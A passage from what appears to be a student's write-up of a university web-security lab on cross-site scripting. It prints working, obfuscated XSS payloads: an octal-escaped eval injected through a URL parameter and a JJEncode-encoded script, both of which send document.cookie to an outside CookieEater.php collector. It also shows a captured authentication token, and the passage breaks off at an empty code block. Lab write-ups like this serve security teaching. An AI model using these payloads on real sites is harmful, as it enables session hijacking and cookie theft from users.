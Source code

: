 Hence, the url to submit is:

```
http://codered.cs.washington.edu/lab2/pmc/impossible.php?url=";eval('va\162 a=new \111mage();a.\163\162\143="\150\164\164p\163://\150ome\163.\143\163.wa\163\150\151ng\164on.e\144u/~\172e\164\151a\143/\103ook\151eEa\164e\162.p\150p?\143ook\151e="%2B\144o\143umen\164.\143ook\151e;');"
```

and then we got the authentication token:

```
authenticated=e0e35dfaaa5994d36992de4c448133dd7ae05fdd
```

Done!

### Problem 8

In this problem, the requests we are sending are no longer GET request; we are POST requests.

Since this time we cannot use any letter or number, the first thing that came to my mind was JJencode or JsFuck. Since JJEncode is shorter than the latter, we will use it.

Again, the payload is:

```javascript
var img=new Image();img.src="https://homes.cs.washington.edu/~zetiac/CookieEater.php?cookie="+document.cookie;
```

Hence, the encoded payload is:

```
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"\\"+$.__$+$.$$_+$._$_+"\\"+$.$__+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+"=\\"+$.__$+$.$_$+$.$$_+$.$$$_+"\\"+$.__$+$.$$_+$.$$$+"\\"+$.$__+$.___+"\\"+$.__$+$.__$+$.__$+"\\"+$.__$+$.$_$+$.$_$+$.$_$_+"\\"+$.__$+$.$__+$.$$$+$.$$$_+"();\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$_$+"\\"+$.__$+$.$__+$.$$$+".\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$$_+$._$_+$.$$__+"=\\\"\\"+$.__$+$.$_$+$.___+$.__+$.__+"\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$$_+$._$$+"://\\"+$.__$+$.$_$+$.___+$._$+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$$_+$._$$+"."+$.$$__+"\\"+$.__$+$.$$_+$._$$+".\\"+$.__$+$.$$_+$.$$$+$.$_$_+"\\"+$.__$+$.$$_+$._$$+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$_$+$.$$_+"\\"+$.__$+$.$__+$.$$$+$.__+$._$+"\\"+$.__$+$.$_$+$.$$_+"."+$.$$$_+$.$$_$+$._+"/~\\"+$.__$+$.$$$+$._$_+$.$$$_+$.__+"\\"+$.__$+$.$_$+$.__$+$.$_$_+$.$$__+"/\\"+$.__$+$.___+$._$$+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"\\"+$.__$+$.___+$.$_$+$.$_$_+$.__+$.$$$_+"\\"+$.__$+$.$$_+$._$_+".\\"+$.__$+$.$$_+$.___+"\\"+$.__$+$.$_$+$.___+"\\"+$.__$+$.$$_+$.___+"?"+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+"=\\\"+"+$.$$_$+$._$+$.$$__+$._+"\\"+$.__$+$.$_$+$.$_$+$.$$$_+"\\"+$.__$+$.$_$+$.$$_+$.__+"."+$.$$__+$._$+$._$+"\\"+$.__$+$.$_$+$._$$+"\\"+$.__$+$.$_$+$.__$+$.$$$_+";"+"\"")())();
```

To fix the quote issues, we add to the beginning and the back of this string:

```
```